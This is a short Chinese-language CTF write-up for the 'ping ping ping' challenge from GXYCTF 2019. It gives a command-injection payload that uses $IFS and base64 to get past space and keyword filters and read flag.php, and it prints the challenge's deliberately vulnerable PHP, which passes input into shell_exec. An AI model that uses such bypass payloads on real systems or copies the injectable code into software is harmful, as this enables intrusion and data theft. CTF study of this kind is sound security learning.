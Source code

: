 date: 2019-12-27
categories:
- 比赛
tags:
- wp
- 线上赛
- ctf
cover:  https://i.loli.net/2019/12/22/3uy4TPRNtjdelD9.png
title:  gxytf2019
---
# gxyctf





## ping ping ping

过滤$,' ',

未过滤符号:`!,#,$,%,(,.,+,-,:,;,=`

过滤空格用$IFS来代替

过滤flag

用base64来绕过

`aasdf||echo$IFS$1ZmxhZy5waHA=|base64$IFS-d|xargs$IFS$IFS``cat`

```php
	<?php
	if(isset($_GET['ip'])){
		$ip = $_GET['ip'];
		if(preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{1f}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match)){
			echo preg_match("/\&|\/|\?|\*|\<|[\x{00}-\x{20}]|\>|\'|\"|\\|\(|\)|\[|\]|\{|\}/", $ip, $match);
			die("fxck your symbol!");
		}
		else if(preg_match("/ /", $ip)){
			die("fxck your space!");
		}
		else if(preg_match("/bash/", $ip)){
			die("fxck your bash!");
		}
		else if(preg_match("/.*f.*l.*a.*g.*/", $ip)){
			die("fxck your flag!");
		}
		$a = shell_exec("ping -c 4 ".$ip);
		echo "<pre>";
		print_r($a);
	}

	?>
```
